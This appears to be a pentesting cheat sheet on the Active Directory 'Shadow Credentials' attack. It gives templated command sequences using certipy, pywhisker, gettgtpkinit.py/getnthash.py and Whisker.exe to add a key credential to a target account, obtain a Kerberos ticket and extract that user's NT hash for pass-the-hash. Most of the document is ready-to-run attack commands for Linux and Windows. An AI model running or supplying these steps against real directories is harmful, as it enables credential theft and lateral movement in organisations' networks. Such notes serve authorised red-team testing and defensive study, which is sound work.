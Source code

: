With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

### What, when and who:
The Shadow Credentials attack was discovered and presented in 2022 by Elad Shamir and Michael Grafnetter. They revealed the technique during a security research talk, showcasing how attackers can abuse the msDS-KeyCredentialLink attribute to achieve stealthy persistence in Active Directory environments using certificate-based authentication.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


### SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 
` < kerberos sync clock command > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user> `

` < kerberos sync clock command > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user> `


### SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
   
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
   
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
   
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py



` pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add" `

` < kerberos sync clock command > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache `

` export KRB5CCNAME=<target user>.ccache `

` getnthash.py -key <key obtanined from previous command> <domain>/<target user> `

<br>

# ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


### SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
  ` ./Whisker.exe add /target:<target user> `

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
  ` ./Whisker.exe list /target:<target user> `

 You can also remove targets from msDS-KeyCredentialLink
  ` ./Whisker.exe remove /target:<target user> `


